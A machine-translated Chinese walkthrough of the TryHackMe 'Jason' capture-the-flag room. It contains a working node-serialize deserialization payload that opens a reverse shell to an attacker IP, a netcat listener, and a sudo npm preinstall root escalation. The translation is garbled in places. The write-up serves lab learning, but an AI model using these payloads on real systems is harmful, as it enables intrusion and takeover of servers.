



# TryHackMe 报道— Jason

> 原文：<https://infosecwriteups.com/tryhackme-writeup-jason-f3b251373bcb?source=collection_archive---------0----------------------->

嗨，伙计们，又和特里哈克姆 with 玩得开心了。所以，这是通过这个 **Jason** 挑战的记录和指南。这间 CTF 客房是由 CTF 爱好者为 CTF 爱好者设计的。


**房间**:[https://tryhackme.com/room/jason](https://tryhackme.com/room/jason)
**关卡**:轻松

**任务**:我们是恐怖 LLC **，**我们专门做恐怖，但是我们公司比较恐怖的一个方面是我们的前端 web 服务器。我们无法在当前状态下发布我们的网站，我们对网络安全的担忧也在成倍增长。我们要求您执行彻底的渗透测试，并尝试危害根帐户。这次订婚没有规则。祝你好运！

# 我们开始吧

像往常一样，启动机器，在浏览器中打开 IP


使用 wappalyzer，没有任何编程栈出来，但网页声称该网站是建立在 Nodejs。我们可以注意到这一点。

```
# nmap -A -T4 -sS -sV -p- 10.10.X.X
```

只有端口 80 和 22 可用。22 号港口似乎很长时间都无法征服它。让我们找到可能的目录。使用`feroxbuster`，

```
# feroxbuster --url http://10.10.X.X -w ~/wordlists/dirb/big.txt -t 60 -C 404,403,405
WLD      164l      355w        0c Got 200 for http://10.10.211.48/931607f263af457582369efab02de978 (url length: 32)
200      164l      355w        0c [http://10.10.211.48/.bashrc](http://10.10.211.48/.bashrc)
200      164l      355w        0c [http://10.10.211.48/00-mp](http://10.10.211.48/00-mp)
200      164l      355w        0c [http://10.10.211.48/.ssh](http://10.10.211.48/.ssh)
200      164l      355w        0c [http://10.10.211.48/!](http://10.10.211.48/!)
200      164l      355w        0c [http://10.10.211.48/1000](http://10.10.211.48/1000)
200      164l      355w        0c [http://10.10.211.48/1009](http://10.10.211.48/1009)
200      164l      355w        0c [http://10.10.211.48/1001](http://10.10.211.48/1001)
....
```

没有结果，因为每条路径都指向同一个索引页。没关系，让我们检查一下剧本，



有 POST 方法提交邮件到服务器，结果总是这样显示


通常情况下，每次提交后，cookies 都会发生变化。使用 cookie 编辑器扩展



让我们解码它，

```
# echo -n "eyJlbWFpbCI6InRlc3RpbmdAZ21haWwuY29tIn0=" | base64 -d
{"email":"testing@gmail.com"}
```

从响应中，我们知道 cookie 只是普通的 json。我们可以测试 cookie，无论电子邮件是否来自 cookie。

```
# echo -n '{"email":"Hello THM"}' | base64
eyJlbWFpbCI6IkhlbGxvIFRITSJ9
```

在 cookie 编辑器中替换它并刷新页面


现在我们知道，在 HTML 页面中，传递的任何值都是被序列化的**和被反序列化的**。****

**在 exploit-db 中搜索 Nodejs 漏洞似乎不相关且不可执行。试图缩小 JSON 序列化的 google 搜索 aim，在`node-serialize`库中找到了一篇关于反序列化漏洞的文章。**

**据作者介绍，`node-serialize`内部使用`eval`功能。它序列化了几乎所有类型的对象，包括函数。例如:**

```
{"key":"_$$ND_FUNC$$_function() { console.log("Tada"); }()"}
```

**这就是带有函数的序列化对象的样子。在反序列化过程中，特殊标签`$$ND_FUNC$$`之后的任何内容都直接进入`eval`函数。**

**所以，我们来测试一下。**

```
# echo -n '{"email":"_$$ND_FUNC$$_function(){ return \"Hello THM\"; }()"}' | base64
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpeyByZXR1cm4gXCJIZWxsbyBUSE1cIjsgfSgpIn0=
```

****

**起作用了。现在我们肯定可以用它来种植储备贝壳。使用来自 PayloadOfAllThings for nodeJS 的代码片段，在 json 中构造有效负载**

```
# echo -n '{"email": "_$$ND_FUNC$$_function() { var net = require(\"net\"), cp = require(\"child_process\"), sh = cp.spawn(\"/bin/sh\", []);var client = new net.Socket();client.connect(1234, \"10.8.X.X\", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});return /a/;}()"}' | base64eyJlbWFpbCI6ICJfJCRORF9GVU5DJCRfZnVuY3Rpb24oKSB7IHZhciBuZXQgPSByZXF1aXJlKFwibmV0XCIpLCBjcCA9IHJlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLCBzaCA9IGNwLnNwYXduXxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxldyBuZXQuU29ja2V0KCk7Y2xpZW50LmNvbm5lY3QoNDQ0NCwgXCIxMC44LjE2My43NFwiLCBmdW5jdGlvbigpe2NsaWVudC5waXBlKHNoLnN0ZGluKTtzaC5zdGRvdXQucGlwZShjbGllbnQpO3NoLnN0ZGVyci5waXBlKGNsaWVudCk7fSk7cmV0dXJuIC9hLzt9KCkifQ==
```

**首先运行 netcat**

```
# nc -nlvp 1234
```

**然后，用 reserve shell 有效负载替换 cookie**

****

**对，现在我们可以访问服务器了！**

```
# nc -lnvp 1234
Connection from 10.10.X.X:50238> ls -al ~
total 40
drwxr-xr-x 5 dylan dylan 4096 Jun 10 05:38 .
drwxr-xr-x 3 root  root  4096 Jun 10 03:48 ..
-rw-rw-r-- 1 dylan dylan   66 Jun 10 04:17 .selected_editor
-rw-r--r-- 1 dylan dylan    0 Jun 10 03:50 .sudo_as_admin_successful
**-rw-r--r-- 1 dylan dylan   33 Jun 10 04:13 user.txt**> cat ~/user.txt
**0ba48780dee9f5677a4XXXXXXXXXXX**
```

**现在我们找到了第一面旗子！现在是根旗。**

**首先要检查的是`sudo -l`**

```
Matching Defaults entries for dylan on jason:
env_reset, mail_badpass,secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser dylan may run the following commands on jason:
**(ALL) NOPASSWD: /usr/bin/npm ***
```

**似乎`npm`命令不需要密码。关于 GTFObins，**

****

**我们可以只运行命令**

```
> TF=$(mktemp -d)
> echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
> sudo npm -C $TF --unsafe-perm i
```

**忠太..Root 权限！我们可以简单地遍历并定位 root.txt 文件**

```
cat ~/root.txt
**0ba48780dee9f5677a4XXXXXXXXXXX**
```

**找到最后一面旗帜！！**

**感谢您的阅读，让我们来看看另一篇文章。🤘**